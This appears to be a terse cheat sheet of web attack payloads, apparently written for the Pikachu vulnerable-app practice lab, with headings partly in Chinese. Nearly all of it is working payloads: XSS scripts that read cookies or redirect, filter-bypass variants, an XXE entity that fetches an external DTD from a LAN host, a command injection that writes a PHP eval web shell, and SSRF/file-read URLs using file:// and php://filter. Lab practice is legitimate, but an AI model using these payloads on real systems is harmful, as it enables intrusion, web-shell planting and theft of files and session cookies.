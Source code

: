 

xss-post:
<script>alert(document.cookie)</script>



<script>alert(document.cookie)</script>

<script type="text/javascript">window.location.href="跳转的目的地址";</script>
<script type="text/javascript">window.location.replace("跳转的目的地址");</script>
<script type="text/javascript">window.location.assign("跳转的目的地址");</script>

xxe:

```
<?xml version = "1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % dtd SYSTEM "http://192.168.163.177:90/XXE/vil.dtd">  
%dtd;]>

```
xss-过滤：
<SCript>alert(123)</SCRipt>
xss-htmlspecialchars:
javascript:alert(1)
xss-href输出:
javascript:alert(1)
xss-js:
'</script><script>alert(1)</script>
</script><script>alert(123)</script>

rce:
`127.0.0.1 | echo "<?php @eval(\$_REQUEST[123])?>" > shell.php`
php反序列化
O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}

SSRF:
```
http://localhost/pika/vul/ssrf/ssrf_fgc.php?file=file:///C://Users//86188//Desktop//tool//1.txt
http://localhost/pika/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=C://Users//86188//Desktop//tool//1.txt
http://localhost/pika/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf_fgc.php
```
